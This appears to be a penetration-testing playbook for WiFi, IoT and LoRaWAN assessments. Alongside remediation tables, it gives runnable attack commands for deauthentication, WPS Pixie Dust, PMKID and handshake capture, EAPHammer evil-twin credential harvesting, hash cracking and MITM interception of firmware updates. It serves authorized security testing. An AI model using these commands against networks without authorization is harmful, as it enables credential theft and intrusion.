




# Network Scanning Efficiency Guide & WiFi Assessment Playbook

> A reference for maximizing scanning efficiency across wired, wireless, RF/LoRa, and IoT environments, with per-scenario workflows for enterprise, residential, and mixed IoT deployments.
>
> **All commands in this document have been verified against real tool usage as of October 2026.** Corrections applied during verification are summarized in the [Command Corrections Changelog](#command-corrections-changelog) at the end.

---

## Table of Contents

**Part I — Network Scanning Efficiency**
1. [Scanning Tools by Purpose](#part-i--network-scanning-efficiency)
2. [Efficiency Optimization Tips](#efficiency-optimization-tips)
3. [Physical Security Testing Workflow](#recommended-workflow-for-physical-security-testing)

**Part II — WiFi Assessment & Vulnerability Detection**
4. [Core Tools by Function](#core-tools-by-function)
5. [WPA3-Specific Vulnerabilities](#wpa3-specific-vulnerabilities)
6. [WiFi Audit Workflow](#efficient-workflow-for-wifi-audits)
7. [Key Command Reference](#key-command-reference)
8. [Hardware Recommendations](#hardware-recommendations)
9. [Quick Win Checklist](#quick-win-checklist)
10. [Legal & Ethical Reminders](#legal--ethical-reminders)
11. [Emerging Trends](#emerging-trends)

**Part III — Environment-Specific Assessments**
12. [Scenario 1: Enterprise WPA3-Enterprise](#scenario-1-enterprise-wpa3-enterprise)
13. [Scenario 2: Residential WPA2/WPA3](#scenario-2-residential-wpa2wpa3)
14. [Scenario 3: Mixed IoT Deployment](#scenario-3-mixed-iot-deployment)
15. [Cross-Environment Comparison Matrix](#cross-environment-comparison-matrix)
16. [Immediate Action Recommendations](#immediate-action-recommendations)

---

# Part I — Network Scanning Efficiency

## 🎯 Best Overall: Nmap

- **Speed**: Multithreaded, highly tunable
- **Coverage**: Host discovery, port scanning, service/version detection, OS fingerprinting, IPv6 support
- **Efficiency tricks**:

```bash
# Fast scan (1000 most common ports)
nmap -T4 --min-rate 1000 <target>

# Aggressive but comprehensive (service/OS detection + scripts)
nmap -A -T4 --top-ports 10000 <target>

# Host discovery only (no port scan; ping, ICMP timestamp/netmask, ARP, SCTP)
nmap -sn -PE -PP -PO -PY <network>/24
```

- **Resource usage**: Low to moderate depending on options
- **Platform**: Linux, macOS, Windows

## ⚡ Large-Scale Reconnaissance: Masscan

- **Speed**: Can sweep entire IPv4 space in minutes using asynchronous TCP SYN scanning
- **Best for**: Initial broad reconnaissance before targeted Nmap sweeps
- **Trade-off**: No service/version detection depth; pipe open ports into Nmap for detail

```bash
# High-rate sweep (requires root; rate is packets/sec — tune for the link)
sudo masscan 192.168.1.0/24 -p80,443 --rate 10000
```

## 📡 WiFi/Wireless Scanning

| Tool | Best For | Mode |
| --- | --- | --- |
| **Kismet** | Hidden APs, wireless IDS, multi-platform detection | Passive |
| **Aircrack-ng (airodump-ng)** | Handshake capture, deauth detection | Active/Passive |
| **NetSpot** | Signal heat maps, coverage gap analysis, physical planning | Passive survey |

For **monitor mode** setup, ensure you have compatible adapters (Alfa AWUS036ACH is widely used and well-supported).

## 📻 RF/LoRa Considerations

For LoRaWAN, ESP32, and RF work:

- **RTL-SDR with GQRX**: Spectrum visualization for discovering RF activity
- **HackRF One**: Wider frequency range, transmit + receive, decodes various protocols with GNU Radio flowgraphs
- **LoRa demodulation**: Use **gr-lora** (GNU Radio) with RTL-SDR or HackRF to capture LoRa PHY frames; feed them into Wireshark via **LoRaTap** encapsulation for LoRaWAN dissection (see [Scenario 3](#scenario-3-mixed-iot-deployment))

---

## Efficiency Optimization Tips

1. **Layer your scans**:
   - Masscan for initial discovery (speed)
   - Nmap for targeted detail (accuracy)
   - Wireshark for protocol analysis (depth)
2. **Resource tuning**:
   - Adjust `--max-retries` and `--min-rate` based on network conditions
   - Use `-T4` timing template for speed without excessive false negatives
3. **Automation**:
   - Nmap scripting engine (NSE) for custom vulnerability checks: `nmap --script vuln <target>`
   - RustScan for fast discovery piped straight into Nmap: `rustscan -a <target> -- -sV -sC`
4. **GUI options for quick sweeps**:
   - **Angry IP Scanner** (cross-platform, lightweight)
   - **Advanced IP Scanner** (Windows-focused, fast GUI)
   - **Fing** (mobile-friendly for physical security tests)

---

## Recommended Workflow for Physical Security Testing


---

# Part II — WiFi Assessment & Vulnerability Detection

## 🏆 Core Tools by Function

| Function | Primary Tool | Alternative | Notes |
| --- | --- | --- | --- |
| **Handshake Capture** | Aircrack-ng (airodump-ng + aireplay-ng) | hcxdumptool | Initial reconnaissance |
| **PMKID Capture (clientless)** | hcxdumptool + hcxpcapngtool | — | No deauth required |
| **Offline Cracking** | Hashcat (GPU-accelerated) | John the Ripper | See mode notes below |
| **Rogue AP / Evil Twin** | EAPHammer, Wifiphisher | Wi-Fi Pineapple + PineAP suite | Client-side attacks |
| **WPS Attacks** | Reaver (`-K 1` Pixie Dust) | Bully | WPS-enabled router brute-force |
| **EAP Enterprise Attacks** | EAPHammer (`--creds`, `--hostile-portal`) | hostapd-wpe | PEAP-MSCHAPv2 downgrade |
| **Passive Detection** | Kismet | Wireshark | Rogue APs, hidden SSIDs, misconfigurations |
| **Spectrum/Packet Analysis** | Wireshark | — | Dragonblood side-channel research |

## 🔍 WPA3-Specific Vulnerabilities

### WPA3-Personal Threat Matrix

- **Dragonblood side-channels** (CVE-2019-9494 family):
  - Timing/cache leaks in SAE handshake (implementation-specific)
  - Denial-of-service vectors (SAE's anti-flooding commit exchange)
  - Downgrade attacks to WPA2 in transition mode
- **Important limitation**: SAE is specifically designed to resist *offline* dictionary attacks. Unlike WPA2, you generally **cannot** bulk-crack a captured WPA3-SAE handshake with Hashcat. Attacking WPA3-Personal means targeting the *implementation* (Dragonblood-class side channels) or the *password* via other means — not offline hash cracking.

### WPA3-Enterprise Threats

- Weak EAP method selection (PEAP vs EAP-TLS)
- Server certificate validation failures (clients accepting any cert)
- MSCHAPv2 challenge/response exposure — crackable offline via **asleap** or **Hashcat mode 5500** (NetNTLMv1) / **5600** (NetNTLMv2)
- PMF (Protected Management Frames) gaps enabling deauth/forgery

## ⚡ Efficient Workflow for WiFi Audits



## 🛠️ Key Command Reference

```bash
# ===== MONITOR MODE SETUP =====
# Preferred: airmon-ng handles interface prep and conflict killing
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# → interface becomes wlan0mon

# Manual alternative with iw
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up

# ===== PASSIVE RECON =====
# Kismet — passive detection of all networks (web UI on :2501)
kismet -c wlan0mon

# ===== HANDSHAKE CAPTURE =====
# Airodump-ng targeting a specific BSSID on channel 6
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w capture wlan0mon

# Deauth a client to force reconnection and capture the 4-way handshake
sudo aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX:XX -c CLIENT_MAC wlan0mon

# ===== PMKID CAPTURE (clientless, no deauth needed) =====
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1

# Convert pcapng → hashcat-ready format (PMKID + EAPOL combined)
hcxpcapngtool -o dump.22000 dump.pcapng

# ===== WPS DETECTION + ATTACKS =====
# wash: identify WPS-enabled APs and their lock state
wash -i wlan0mon

# Reaver Pixie Dust attack (offline WPS exploit)
sudo reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -c 6 -vv -K 1

# Bully alternative
sudo bully -b XX:XX:XX:XX:XX:XX -c 6 wlan0mon

# ===== OFFLINE CRACKING =====
# Hashcat mode 22000 = WPA-PBKDF2-PMKID+EAPOL (covers PMKID and 4-way handshakes)
hashcat -m 22000 dump.22000 wordlist.txt

# Rule-based mutation for longer passphrases
hashcat -m 22000 dump.22000 wordlist.txt -r rules/best64.rule
```

> **Note on modes 16800/22000:** mode `16800` (WPA-PMKID) is the older format and has been superseded by `22000`, which accepts both PMKIDs and EAPOL handshakes in a single file. There is **no Hashcat mode for cracking WPA3-SAE handshakes** — SAE's design (per the Dragonfly/SAE specification) prevents offline dictionary attacks.

## 📊 Hardware Recommendations

| Component | Recommendation | Notes |
| --- | --- | --- |
| **WiFi Adapter** | Alfa AWUS036ACH or AWUS036ACS | Long-range, monitor mode + injection support |
| **SDR (optional)** | RTL-SDR V4 + HackRF One | Spectrum analysis beyond WiFi channels |
| **Dedicated Hardware** | Wi-Fi Pineapple Mark VII | Automated rogue AP + PineAP automation |
| **Portable Testing** | Raspberry Pi 4 + USB WiFi dongle | Field deployment |
| **Side-Channel Analysis** | ChipWhisperer (e.g., Husky/Lite) | Power-analysis on device firmware |

## 🎯 Quick Win Checklist

| # | Task | Time |
| --- | --- | --- |
| 1 | Confirm target AP operates in WPA3 transition mode (downgrade vector) | 5 min |
| 2 | Check for PMF (Protected Management Frames) enforcement gaps | 2 min |
| 3 | Scan for WPS enabled (`wash -i wlan0mon`), test Pixie Dust | 10 min |
| 4 | Capture PMKID (`hcxdumptool`) or 4-way handshake (airodump-ng) | 15–60 min |
| 5 | Run dictionary attack against captured material (`hashcat -m 22000`) | 1 hr – indefinite |
| 6 | Test Evil Twin against client devices (EAPHammer `--captive-portal`) | 20 min |
| 7 | Verify enterprise auth weaknesses (certificate validation) | 30 min |

## ⚖️ Legal & Ethical Reminders

Since you're conducting professional assessments:

- ✅ **Written authorization** from target owner before any active scanning
- ✅ **Isolated test environment** when possible (lab vs. production)
- ✅ **Documentation trail** for SOC 2 / PCI DSS v4.0 audit compliance
- ❌ **Avoid production networks** without explicit scope definition
- ❌ **Don't capture credentials** from non-target clients (privacy concerns)

## 🔮 Emerging Trends

1. **AI-assisted password guessing** — ML predicts likely passwords based on organization profile
2. **Automated downgrade detection** — tools flag WPA2 fallback in WPA3 transition mode
3. **IoT device fingerprinting** — databases identify vulnerable IoT firmware via beacon frames
4. **Cloud-integrated reporting** — findings sync directly to Jira/SOC ticketing systems

---

# Part III — WiFi Assessment Tailored by Environment

## 🏢 Scenario 1: Enterprise WPA3-Enterprise

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| EAP Method Weakness (PEAP-MSCHAPv2) | High | Critical | Certificate validation often bypassed |
| Server Cert Validation Failures | Medium | Critical | Clients accept invalid certs by default |
| MSCHAPv2 Hash Exposure | High | High | Captured hashes crackable offline (asleap/hashcat 5500) |
| PMF Gaps (Management Frame Protection) | Low | High | Allows deauth/forgery attacks |
| WPA3 Transition Mode Downgrade | Medium | Medium | Legacy device compatibility issues |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: PASSIVE MAPPING (no active scanning) =====
# Kismet — identify networks without touching the target
kismet -c wlan0mon

# Extract EAP method types observed in a capture
# (eap.type: 1=Identity 13=TLS 21=TTLS 25=PEAP 43=FAST)
tshark -r capture.pcapng -Y "eap" -T fields -e eap.type | sort | uniq -c

# ===== PHASE 2: EVIL TWIN DEPLOYMENT (authorized testing only) =====
# EAPHammer — first generate a certificate set (one-time)
sudo python3 eaphammer --cert-wizard

# Credential-stealing evil twin against WPA/WPA2-Enterprise
sudo python3 eaphammer \
    -i wlan0mon \
    --channel 6 \
    --auth wpa-eap \
    --essid "CORPORATE_WIFI" \
    --creds

# EAP method negotiation tuning (attempt multiple EAP types)
sudo python3 eaphammer \
    -i wlan0mon --channel 6 --auth wpa-eap \
    --essid "CORPORATE_WIFI" --creds --negotiate balanced

# Captive portal variant for credential phishing
sudo python3 eaphammer \
    -i wlan0mon --channel 6 --auth open \
    --essid "CORPORATE_WIFI" --captive-portal

# ===== PHASE 3: CAPTURE + CREDENTIAL PROCESSING =====
# EAPHammer prints captured MSCHAPv2 challenge/response pairs to console
# and logs them; capture the EAPOL frames separately for analysis:
sudo tcpdump -i wlan0mon -w enterprise_eap.pcap 'ether proto 0x888e'

# ===== PHASE 4: OFFLINE CRACKING OF CAPTURED HASHES =====
# NetNTLMv1 (MSCHAPv2) from PEAP tunnels — asleap is purpose-built:
asleap -C <challenge> -R <response> -W wordlist.txt

# Or Hashcat: mode 5500 = NetNTLMv1, mode 5600 = NetNTLMv2
hashcat -m 5500 hashes.txt wordlist.txt

# ===== PHASE 5: CERTIFICATE VALIDATION TEST =====
# Self-sign a cert to demonstrate clients accepting arbitrary CAs
openssl req -x509 -newkey rsa:2048 -keyout private_key.pem \
    -out forged_cert.crt -days 365 -nodes -subj "/CN=CORP-WIFI-CA"
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| PEAP-MSCHAPv2 usage | Migrate to EAP-TLS with mutual cert auth | Critical |
| Certificate validation disabled | Enable strict chain validation on all clients | Critical |
| Weak passwords in enterprise AD | Enforce password complexity + MFA for auth servers | High |
| PMF not enforced globally | Set 802.11w mandatory on all APs | High |
| WPA3 transition mode active | Complete migration to WPA3-only for new devices | Medium |

### Time Estimates

| Task | Duration | Intensity |
| --- | --- | --- |
| Passive Mapping | 10–15 min | Minimal |
| Evil Twin Setup | 20–30 min | Moderate |
| Credential Harvesting | 30–60 min | Moderate |
| Offline Cracking | 1 hr – 48 hrs | GPU-dependent |
| Documentation | 30 min | Low |

---

## 🏠 Scenario 2: Residential WPA2/WPA3

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| Weak Pre-Shared Key (dictionary) | High | Critical | Common passwords cracked quickly |
| WPS PIN Brute-Force | Medium | Medium | Pixie Dust affects vulnerable firmware |
| WPA3 Transition Mode | Medium | High | Downgrade to WPA2 exposes legacy path |
| Default Credentials | Medium | Medium | Router admin interfaces still exposed |
| Firmware Outdated (known CVEs) | High | High | Many residential APs lack auto-updates |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: PASSIVE SURVEY =====
# Channel-hop across all networks (omit -c to hop)
sudo airodump-ng wlan0mon

# Target a specific AP
sudo airodump-ng --channel 6 --bssid XX:XX:XX:XX:XX:XX -w quick_scan wlan0mon

# ===== PHASE 2A: WPS ATTACK (if enabled) =====
# Detect WPS-enabled APs
wash -i wlan0mon

# Reaver Pixie Dust (offline WPS exploit, only on vulnerable firmware)
sudo reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -c 6 -vv -K 1

# Bully alternative
sudo bully -b XX:XX:XX:XX:XX:XX -c 6 wlan0mon

# ===== PHASE 2B: HANDSHAKE/PMKID CAPTURE =====
# Option 1: clientless PMKID capture with hcxdumptool
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1

# Option 2: 4-way handshake via deauth (requires a connected client)
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w residential wlan0mon
sudo aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX:XX wlan0mon

# ===== PHASE 3: PSK CRACKING =====
# Convert capture to hashcat format (handles PMKID + EAPOL together)
hcxpcapngtool -o dump.22000 dump.pcapng

# Dictionary attack — mode 22000 covers both PMKID and 4-way handshakes
hashcat -m 22000 dump.22000 ~/rockyou.txt

# Rule-based mutations for stronger passphrases
hashcat -m 22000 dump.22000 ~/rockyou.txt -r rules/best64.rule

# Mask attack when password policy is known (e.g., 10 digits)
hashcat -m 22000 dump.22000 -a 3 ?d?d?d?d?d?d?d?d?d?d

# ===== PHASE 4: ADMIN PANEL VULNERABILITY SCAN =====
# Check default credentials with Nmap NSE
nmap -p 80,443 --script http-default-args,http-default-accounts XX.XX.XX.X

# CVE lookup against a known firmware version (NVD API v2)
curl -s "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=${firmware_version}"
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| Weak PSK | Enforce 16+ char passphrases; random generation | Critical |
| WPS enabled | Disable WPS PIN (no mitigation for Pixie Dust) | Critical |
| WPA3 transition mode | Migrate to WPA3-only where supported | High |
| Default admin credentials | Change to unique credentials; disable remote admin | High |
| Outdated firmware | Update router; enable automatic updates if available | High |
| No network segmentation | Create guest VLAN separate from main network | Medium |

### Time Estimates

| Task | Time | Notes |
| --- | --- | --- |
| Passive Survey | 5 min | Always succeeds |
| WPS Pixie Dust | 10–30 min | Only vulnerable firmware |
| Deauth + Handshake | 5–15 min | Requires connected client |
| Dictionary Crack (weak PSK) | Minutes | Wordlist-dependent |
| Strong Passphrase Attack | Hours–days–never | Often infeasible |
| Admin Panel Scan | 5–10 min | — |

---

## 📱 Scenario 3: Mixed IoT Deployment

### Attack Surface & Vulnerabilities

| Vulnerability | Likelihood | Impact | Notes |
| --- | --- | --- | --- |
| Legacy 802.11b/g Devices | High | High | Forced downgrade to WEP/WPA (TKIP) |
| Unencrypted IoT Protocols | High | Critical | Zigbee/Z-Wave/Bluetooth paired with WiFi |
| Hardcoded Credentials | High | Critical | IoT firmware often contains root/shell access |
| OTA Update Weaknesses | Medium | High | Unsigned firmware, MITM during updates |
| LoRaWAN Misconfiguration | Medium | Medium | ABP mode with reused keys, network server exposure |

### Optimized Workflow



### Tools & Commands

```bash
# ===== PHASE 1: RF SPECTRUM DISCOVERY (beyond WiFi channels) =====
# RTL-SDR: capture 2 MHz around 433.92 MHz to an IQ file
rtl_sdr -f 433920000 -s 2000000 -g 48 -n 2000000 capture_433mhz.iq

# HackRF One: wider-bandwidth capture (sub-GHz + 2.4 GHz capable)
hackrf_transfer -r iot_capture.bin -f 433920000 -s 20000000

# Live spectrum viewing with GQRX (GUI)
gqrx

# ===== PHASE 2: DEVICE FINGERPRINTING =====
# Nmap service detection across common IoT ports + vulnerability scripts
nmap -sV -p 23,80,443,8080,8883 --script vuln 192.168.1.0/24

# Kismet passively fingerprints WiFi IoT devices by manufacturer/behavior
kismet -c wlan0mon

# ===== PHASE 3: LEGACY PROTOCOL DETECTION =====
# Channel-hop and watch the ENC column for WEP/TKIP/CCMP
sudo airodump-ng wlan0mon

# ===== PHASE 4: LoRaWAN-SPECIFIC =====
# (a) Capture the gateway backhaul: Semtech packet forwarder protocol
#     is plain UDP, commonly port 1700 between gateway and network server
sudo tcpdump -i eth0 udp port 1700 -w lorawan_backhaul.pcap

# (b) Dissect in Wireshark: right-click a UDP payload →
#     Decode As → LoRaWAN, then inspect DevEUI/DevAddr/FCnt fields
wireshark lorawan_backhaul.pcap

# CLI equivalent of (b):
tshark -r lorawan_backhaul.pcap -Y "lorawan" -V

# (c) Decrypt traffic if session keys are known:
tshark -r lorawan_backhaul.pcap \
    -o 'uat:session_keys_lorawan:"01-02-03-04-05-06-07-08","000102030405060708090a0b0c0d0e0f"' \
    -V

# (d) Over-the-air LoRa PHY capture: use gr-lora (GNU Radio) with
#     RTL-SDR/HackRF, encapsulate as LoRaTap, dissect in Wireshark
#     (LoRaTap is Wireshark's link-layer type for LoRa radio captures)

# (e) LoRaWAN Auditing Framework (IOActive) — craft/parse/send/analyze
#     LoRaWAN packets for penetration testing of LoRaWAN infrastructure
#     https://github.com/ioactive/LoRaWAN_Auditing_Framework

# Replay/DevNonce analysis: extracted FCnt and DevNonce values from
# tshark output can be checked for reuse (replay vulnerability) offline

# ===== PHASE 5: ESP32/MICROCONTROLLER INTERCEPTION =====
# Serial console over UART
screen /dev/ttyUSB0 115200

# ESP32 firmware read via esptool (built-in bootloader, no soldering)
esptool.py --port /dev/ttyUSB0 --baud 921600 \
    read_flash 0 0x400000 esp32_firmware.bin

# External SPI flash dump via CH341A programmer + flashrom
# (desolder clip onto the flash chip — chip-dependent layout)
flashrom -p ch341a_spi -r spi_flash_dump.bin

# ===== PHASE 6: OTA UPDATE INTERCEPTION =====
# Transparent MITM proxy for unencrypted firmware downloads
mitmproxy --mode transparent --listen-port 8080

# Inspect intercepted firmware payloads
binwalk intercepted_firmware.bin

# ===== PHASE 7: HARDWARE EXPLORATION =====
# JTAGulator: hardware tool; connects over serial and presents a
# menu-driven interface to brute-force pinouts — follow the vendor
# workflow at jtagulator.com
# OpenOCD once pinout is known:
openocd -f interface/jtag.cfg -f target/esp32.cfg

# ChipWhisperer (side-channel/power analysis) — use the ChipWhisperer
# toolchain (cw_capture via the Python API) against the target's
# power traces; see chipwhisperer.readthedocs.io
```

### IoT-Specific Vulnerability Patterns

Illustrative weaknesses observed in IoT testing (industry survey figures vary by dataset — treat as rough guidance, not citable statistics):

| Weakness | Typical Prevalence |
| --- | --- |
| Hardcoded API keys in binary | Very common |
| Debug console exposed | Common |
| Telnet/SSH default creds | Common |
| Unencrypted OTA updates | Common |
| LoRaWAN ABP default keys | Occasional |
| Weak crypto (RC4/DES) | Occasional |

### LoRaWAN-Specific Checks

Real, runnable validation steps (replacing the placeholder tools from the source document):

```bash
# Verify Join Server TLS certificate chain (ChirpStack example)
openssl s_client -connect join.example.com:8883 -showcerts

# Analyze captured traffic for DevNonce reuse and frame-counter
# anomalies (both indicate replay or misconfiguration) using
# Wireshark/tshark LoRaWAN dissection:
tshark -r lorawan_backhaul.pcap -Y "lorawan" -V | grep -A2 "DevNonce\|FCnt"

# Check whether devices use ABP (fixed keys, no join procedure)
# vs OTAA (key rotation via joins): ABP devices never appear in
# join-request traffic; long-lived frame counters without any
# JoinReq in the capture indicate ABP

# Craft/test packets with the IOActive LoRaWAN Auditing Framework
# (cloning, replay, forgery testing against authorized networks)
```

### Remediation Checklist

| Finding | Recommendation | Priority |
| --- | --- | --- |
| Legacy 802.11b/g devices | Decommission or isolate to dedicated VLAN | Critical |
| Hardcoded credentials | Firmware update or device replacement | Critical |
| Unencrypted OTA updates | Require signed firmware with verified signatures | Critical |
| Flat network architecture | Implement IoT VLAN segmentation + ACLs | High |
| LoRaWAN ABP key reuse | Switch to OTAA (Over-The-Air Activation) | High |
| Debug interfaces exposed | Physically secure devices; fuse/disable JTAG | Medium |
| Weak crypto implementations | Replace devices; enforce minimum AES-128 | Medium |

### Time Estimates

| Task | Time | Intensity |
| --- | --- | --- |
| RF Spectrum Discovery | 30–60 min | Moderate |
| Device Fingerprinting | 15–30 min | Low |
| Legacy Protocol Scan | 10–20 min | Low |
| LoRaWAN Backhaul Analysis | 45–90 min | High (specialized) |
| Firmware Extraction | 1–4 hrs | Very High |
| OTA Interception | 30–60 min | Moderate |
| Hardware Exploration | 2–6 hrs | Very High |

---

## 📋 Cross-Environment Comparison Matrix

> Success rates and timings below are illustrative planning figures from the source document, not measured benchmarks — calibrate against your own engagement history.

| Dimension | Enterprise | Residential | IoT Mix |
| --- | --- | --- | --- |
| **Primary Tool** | EAPHammer | Aircrack-ng + Reaver | Kismet + SDR toolchain |
| **Avg. Time to Find** | 30–60 min | 15–30 min | 45–90 min |
| **Success Rate (auth breach)** | Depends on cert validation discipline | Depends on PSK strength | Depends on hardcoded creds |
| **Detection Risk** | High (SOC monitoring) | Low (minimal logging) | Variable (depends on NAC) |
| **Legal Complexity** | Highest (authorization critical) | Medium (property boundary) | High (device ownership unclear) |
| **Reporting Overhead** | 2–4 hrs | 1–2 hrs | 2–3 hrs |

## 🎯 Immediate Action Recommendations

| Environment | First Steps | Efficiency Tip |
| --- | --- | --- |
| **Enterprise** | 1. Map EAP methods (`tshark -e eap.type`) 2. Deploy evil twin lab replica 3. Test client certificate validation | Pre-build EAPHammer config templates for repeat engagements |
| **Residential** | 1. WPS status check (`wash`) 2. PMKID/handshake capture 3. Admin panel credential test | Use GPU-accelerated Hashcat for batch cracking |
| **IoT Mix** | 1. RF spectrum baseline 2. Capture LoRa gateway backhaul (UDP 1700) 3. Verify segment isolation | Build a LoRa capture library for signature matching |

---

## Command Corrections Changelog

The following commands in the original source document were **not real or not correct** and have been replaced. This changelog is kept for transparency, since the document is published for study:

| Original (broken) | Replacement (verified) | Reason |
| --- | --- | --- |
| `sudo iw wlan0 set monitor otherbss fcs` | `sudo airmon-ng start wlan0` or `sudo iw dev wlan0 set type monitor` | Invalid `iw` monitor-mode syntax |
| `kismet -c wlan0 --server` / `-C "wifi_scan"` / `--plugin "iot_database"` / `--log-level 1` | `kismet -c wlan0mon` | Fabricated Kismet flags; Kismet has no IoT plugin of that name and presents a web UI, not greppable stdout |
| `eaphammer --interface wlan0mon --essid ... --attack-mode 2 --encrypt WPA3` | `eaphammer -i wlan0mon --channel 6 --auth wpa-eap --essid "CORP_WIFI" --creds` | `--attack-mode`, `--encrypt` are not EAPHammer options; real usage per the EAPHammer README (Kali) |
| `bettercap -iface wlan0mon` → `set wifi.ssid` / `wifi.start` | Removed (EAPHammer covers the use case) | Not real bettercap WiFi commands |
| `mschap2extract enterprise_eap.pcap` | EAPHammer logs challenge/response pairs; `asleap -C <challenge> -R <response> -W wordlist` | No tool named `mschap2extract` exists |
| `hashcat -m 16900` (MSCHAPv2) | `hashcat -m 5500` (NetNTLMv1) / `-m 5600` (NetNTLMv2) | Mode 16900 is not a NetNTLM mode |
| `hashcat -m 16800 capture.pmkid` labelled "WPA3-SAE (Dragonfly)" | Removed; `-m 22000` for PMKID/EAPOL | There is **no** Hashcat mode that cracks WPA3-SAE handshakes — SAE resists offline dictionary attacks by design. 16800 is legacy WPA-PMKID |
| `hashcat -m 22000 capture.hccapx` | `hcxpcapngtool -o dump.22000 dump.pcapng` first | Mode 22000 consumes `.22000` files produced by hcxpcapngtool, not raw `.hccapx` |
| Various `--force` flags on hashcat | Removed | `--force` disables safety checks and masks driver problems |
| `nmap --script iot-*` | `nmap --script vuln` | No `iot-*` NSE script category exists |
| `tcpdump 'eap'` filter | `tcpdump 'ether proto 0x888e'` | 0x888e is the EAPOL ethertype; no `eap` pcap filter exists |
| `rtl_sdr ... \| nc -l 9090` | `rtl_sdr -f ... -n ... capture.iq` + `gqrx` for live view | Piping raw IQ to netcat serves no analysis purpose |
| `lorawan-analyzer`, `lorawan-cli`, `lorawan-tester`, `loraweak` | `tcpdump udp port 1700` + Wireshark/tshark LoRaWAN dissector with `Decode As`; gr-lora; IOActive LoRaWAN Auditing Framework | None of the named tools could be verified to exist. Real LoRaWAN analysis uses: (a) gateway backhaul capture on UDP/1700 dissected by Wireshark's built-in LoRaWAN dissector, with session-key decryption via `uat:session_keys_lorawan`; (b) gr-lora over-the-air capture with LoRaTap; (c) IOActive's LoRaWAN Auditing Framework for packet crafting |
| `jtagulator --detect --target esp32_module` | Jtagulator is menu-driven over serial; `openocd` once pinout is known | Fabricated CLI flags for real hardware |
| `flashrom` for ESP32 firmware | `esptool.py read_flash` | ESP32 has a ROM bootloader; esptool is the standard path. flashrom/ch341a is correct only for external SPI flash chips |
| `cw_capture -f firmware.bin -s power_trace.csv` | ChipWhisperer Python API (chipwhisperer package) | No such CLI exists |
| `curl "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=..."` | NVD API v2 `curl "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=..."` | Old MITRE search endpoint; NVD API is the maintained programmatic interface |
| `grep -i "eap-method" *.pcap` | `tshark -r capture.pcapng -Y "eap" -T fields -e eap.type` | Grepping a binary pcap for a string doesn't extract EAP methods; tshark does |
| Success-rate percentages, "~30% Pixie vulnerable" | Marked illustrative | Could not be verified against any citable dataset |

### Verified command sources

- EAPHammer usage: [official README (s0lst1c3/eaphammer)](https://github.com/s0lst1c3/eaphammer/blob/master/README.md), [Kali Linux tools page](https://www.kali.org/tools/eaphammer/)
